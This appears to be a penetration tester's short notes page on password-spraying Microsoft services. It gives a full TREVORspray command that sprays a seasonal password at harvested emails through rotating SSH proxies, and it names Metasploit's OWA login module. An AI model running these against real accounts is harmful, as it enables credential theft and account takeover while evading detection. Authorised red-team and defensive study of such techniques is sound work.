 ```yaml
---
description: >-
  A list of tools and resources that I use for password spraying Microsoft
  products.
---
```


# Spray Microsoft

## Attacking Office365

A tool that I've had a large amount of success with is [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray):\
`./trevorspray.py -e /opt/trevorspray/log/valid_emails.txt -passwords 'Winter2021' --delay 1 --no-current-ip --ssh [SSH SERVERS] -k (KEY)`

## Attacking OWA

Metasploit has a great module for attacking OWA:\
`auxiliary/scanner/http/owa_login`
